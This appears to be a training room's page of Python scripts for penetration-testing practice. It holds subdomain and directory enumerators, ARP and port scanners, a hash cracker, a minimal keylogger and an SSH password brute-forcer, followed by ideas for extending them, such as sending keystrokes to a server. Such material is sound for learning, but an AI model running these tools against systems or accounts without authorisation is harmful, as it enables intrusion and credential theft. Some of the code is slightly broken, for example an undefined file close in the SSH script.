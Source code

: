## __Subdomain.py__

```python
import requests
import sys

sub_list = open("subdomains.txt").read()
subdoms = sub_list.splitlines()

for sub in subdoms:
    sub_domains = f"http://{sub}.{sys.argv[1]}"

    try:
        requests.get(sub_domains)
    except requests.ConnectionError:
        pass
    else:
        print("Valid domain: ",sub_domains)
```

## __Dir.py__

```python
import requests
import sys

sub_list = open("wordlist.txt").read()
directories = sub_list.splitlines()

for dir in directories:
    dir_enum = f"http://{sys.argv[1]}/{dir}.html"
    r = requests.get(dir_enum)
    if r.status_code==404:
        pass
    else:
        print("Valid directory:" ,dir_enum)
```

## __ArpScan.py__

```python
from scapy.all import *

interface = "eth0"
ip_range = "10.10.X.X/24"
broadcastMac = "ff:ff:ff:ff:ff:ff"

packet = Ether(dst=broadcastMac)/ARP(pdst = ip_range)

ans, unans = srp(packet, timeout =2, iface=interface, inter=0.1)

for send,receive in ans:
        print (receive.sprintf(r"%Ether.src% - %ARP.psrc%"))
```

## __PortScanner.py__

```python
import socket
import sys
import pyfiglet

ascii_banner = pyfiglet.figlet_format("Port Scanner")
print(ascii_banner)

ip = '10.10.168.222'
# ip = socket.gethostbyname(host)
open_ports = []

# ports = range(1, 65535)
ports = { 21, 22, 23, 53, 80, 135, 443, 445, 2100}

def probe_port(ip, port, result = 1):
  try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(0.5)
    r = sock.connect_ex((ip, port))
    if r == 0:
      result = r
    sock.close()
  except Exception as e:
    pass
  return result

for port in ports:
    sys.stdout.flush()
    response = probe_port(ip, port)
    if response == 0:
        open_ports.append(port)

if open_ports:
  print ("Open Ports are: ")
  print (sorted(open_ports))
else:
  print ("Looks like no ports are open :(")
```

## __FileDownloader.py__

```python
import requests

url = 'https://assets.tryhackme.com/img/THMlogo.png'
r = requests.get(url, allow_redirects=True)
open('THMlogo.png', 'wb').write(r.content)
```

## __HashCracker.py__

```python
import hashlib
import pyfiglet

ascii_banner = pyfiglet.figlet_format("HASH CRACKER")
print(ascii_banner)

wordlist_location = str(input('Enter wordlist file location: '))
hash_input = str(input('Enter hash to be cracked: '))

with open(wordlist_location, 'r') as file:
    for line in file.readlines():
        hash_ob = hashlib.sha256(line.strip().encode()) # hashlib.md5
        # hashlib.md5
        hashed_pass = hash_ob.hexdigest()
        if hashed_pass == hash_input:
            print('Found cleartext password! ' + line.strip())
            exit(0)
```

## __Keylogger.py__

```python
import keyboard
keys = keyboard.record(until ='ENTER')
keyboard.play(keys)
```

## __SshCracker.py__

```python
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()

        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1:
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()
```

Based on what we have covered in this room, here are a few suggestions about how you could expand these tools or start building your own using Python:

- Use DNS requests to enumerate potential subdomains
- Build the keylogger to send the capture keystrokes to a server you built using Python
- Grab the banner of services running on open ports
- Crawl the target website to download .js library files included
- Try to build a Windows executable for each and see if they work as stand-alone applications on a Windows target
- Implement threading in enumeration and brute-forcing scripts to make them run faster